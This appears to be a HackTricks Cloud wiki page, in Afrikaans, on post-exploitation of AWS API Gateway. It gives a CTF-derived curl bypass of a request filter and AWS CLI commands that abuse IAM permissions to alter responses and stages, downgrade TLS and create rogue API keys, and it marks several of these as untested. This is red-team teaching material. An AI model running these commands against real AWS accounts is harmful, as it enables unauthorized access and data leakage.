 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Vir meer inligting, kyk:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Toegang tot nie-blootgestelde API's

Jy kan 'n eindpunt skep in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) met die diens `com.amazonaws.us-east-1.execute-api`, die eindpunt blootstel in 'n netwerk waar jy toegang het (potensieel via 'n EC2 masjien) en 'n sekuriteitsgroep toewys wat alle verbindings toelaat.\
Dan, vanaf die EC2 masjien sal jy in staat wees om toegang tot die eindpunt te verkry en dus die gateway API aan te roep wat voorheen nie blootgestel was nie.

### Omseil Versoek liggaam pas deur

Hierdie tegniek is gevind in [**hierdie CTF skrywe**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Soos aangedui in die [**AWS dokumentasie**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) in die `PassthroughBehavior` afdeling, is die waarde **`WHEN_NO_MATCH`** , wanneer die **Content-Type** kop van die versoek nagegaan word, sal die versoek na die agterkant deurgee sonder enige transformasie.

Daarom, in die CTF het die API Gateway 'n integrasiesjabloon gehad wat **die vlag verhinder het om uit te lek** in 'n antwoord wanneer 'n versoek met `Content-Type: application/json` gestuur is:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

 egter, om 'n versoek te stuur met **`Content-type: text/json`** sou daardie filter voorkom.

Laastens, aangesien die API Gateway slegs `Get` en `Options` toegelaat het, was dit moontlik om 'n arbitrêre dynamoDB-navraag te stuur sonder enige beperking deur 'n POST-versoek met die navraag in die liggaam te stuur en die koptekst `X-HTTP-Method-Override: GET` te gebruik:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Gebruik Planne DoS

In die **Enumerasie** afdeling kan jy sien hoe om die **gebruik plan** van die sleutels te **verkry**. As jy die sleutel het en dit is **beperk** tot X gebruike **per maand**, kan jy dit **net gebruik en 'n DoS veroorsaak**.

Die **API Sleutel** moet net **ingesluit** wees binne 'n **HTTP kop** genoem **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

'n Aanvaller met die regte `apigateway:UpdateGatewayResponse` en `apigateway:CreateDeployment` kan **'n bestaande Gateway Response wysig om pasgemaakte koppe of respons sjablone in te sluit wat sensitiewe inligting lek of kwaadwillige skripte uitvoer**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Lek van sensitiewe inligting, uitvoering van kwaadwillige skripte, of ongemagtigde toegang tot API-hulpbronne.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

'n Aanvaller met die regte `apigateway:UpdateStage` en `apigateway:CreateDeployment` kan **'n bestaande API Gateway-fase wysig om verkeer na 'n ander fase te herlei of die kasinstellings te verander om ongemagtigde toegang tot gekapte data te verkry**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Onbevoegde toegang tot gekapte data, onderbreking of onderskepping van API-verkeer.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

'n Aanvaller met die toestemmings `apigateway:PutMethodResponse` en `apigateway:CreateDeployment` kan **die metode-antwoorde van 'n bestaande API Gateway REST API-metode wysig om pasgemaakte koptekste of antwoordtemplates in te sluit wat sensitiewe inligting lek of kwaadwillige skripte uitvoer**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potensiële Impak**: Lek van sensitiewe inligting, uitvoering van kwaadwillige skripte, of ongemagtigde toegang tot API-hulpbronne.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

'n Aanvaller met die regte `apigateway:UpdateRestApi` en `apigateway:CreateDeployment` kan **die API Gateway REST API-instellings wysig om logging te deaktiveer of die minimum TLS-weergawe te verander, wat moontlik die sekuriteit van die API verzwak**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potensiële Impak**: Verzwakking van die sekuriteit van die API, wat moontlik ongeoorloofde toegang toelaat of sensitiewe inligting blootstel.

{% hint style="info" %}
Benodig toetsing
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

'n Aanvaller met toestemmings `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, en `apigateway:CreateUsagePlanKey` kan **nuwe API-sleutels skep, dit met gebruiksplanne assosieer, en dan hierdie sleutels gebruik vir ongeoorloofde toegang tot API's**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potensiële Impak**: Onbevoegde toegang tot API hulpbronne, omseiling van sekuriteitsbeheer.

{% hint style="info" %}
Noodsaak toetsing
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
